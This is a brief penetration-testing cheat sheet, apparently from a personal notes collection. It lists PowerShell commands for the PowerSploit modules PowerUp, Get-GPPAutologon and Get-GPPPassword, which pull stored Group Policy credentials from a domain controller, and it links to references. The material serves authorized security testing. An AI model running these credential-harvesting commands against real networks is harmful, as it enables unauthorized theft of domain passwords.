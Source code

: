 # PowerSploit

## PowerUp

```
PS C:\> ipmo .\PowerUp.ps1

PS C:\> Get-CachedGPPPassword

PS C:\> Get-GPPPassword
```

## Get-GPPAutologon

```
PS C:\> Import-Module .\Get-GPPAutologon.ps1

PS C:\> Get-GPPAutologon

PS C:\> Get-GPPAutologon | ForEach-Object {$_.passwords} | Sort-Object -Uniq
```

## Get-GPPPassword

- Targets the domain controller to grab the stored credentials

```
PS C:\> Import-Module .\Get-GPPPassword.ps1

PS C:\> Get-GPPPassword [-Server <DOMAIN.COM>]
```

---
## References

- [[PowerUp]]

- [PowerSploit: Get-GPPAutologon](https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Get-GPPAutologon.ps1)

- [PowerSploit: Get-GPPPassword](https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Get-GPPPassword.ps1)

- [Pentestlab Blog: Stored Credentials](https://pentestlab.blog/2017/04/19/stored-credentials/)